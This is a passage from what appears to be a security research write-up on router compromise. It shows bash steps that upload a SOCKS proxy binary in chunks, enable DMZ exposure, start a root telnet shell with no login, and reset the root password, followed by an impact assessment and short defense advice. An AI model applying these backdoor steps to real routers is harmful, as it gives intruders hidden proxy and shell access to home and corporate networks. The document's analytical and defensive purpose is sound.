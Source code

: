 Due to the router's limited command execution capabilities, binaries must be uploaded in small chunks:

```bash
# Example: Upload SOCKS proxy binary
echo -ne '\x7f\x45\x4c\x46' > /tmp/microsocks
echo -ne '\x01\x01\x01\x00' >> /tmp/microsocks
# ... continue for entire binary
chmod +x /tmp/microsocks
```

### Step 3: Service Installation and DMZ Configuration

```bash
# Start SOCKS proxy server
/tmp/microsocks -p 1080 &

# Configure DMZ to expose services
echo "dmz_enable=1" > /tmp/dmz_config
echo "dmz_host=$(nvram get lan_ipaddr)" >> /tmp/dmz_config
```

### Step 4: Persistence and Cleanup

```bash
# Enable telnet access
telnetd -l /bin/sh -p 23 &

# Configure credentials
echo "root:w00tw00t!" | chpasswd

# All processes terminate on reboot for stealth
```

## Impact Assessment

### Network Penetration Scenarios

**Corporate Networks**: Employees working from home with compromised routers provide direct access to internal corporate networks through VPN connections.

**IoT Botnets**: Mass exploitation creates a distributed network of compromised routers for various malicious activities.

**Advanced Persistent Threats**: Long-term access to internal networks through "trusted" home networking equipment.

### Defense Strategies

**Network Segmentation**: Isolate home office networks from critical corporate resources.

**Firmware Management**: Implement policies requiring regular router firmware updates.

**Authentication Hardening**: Mandate strong, unique credentials for all networking equipment.
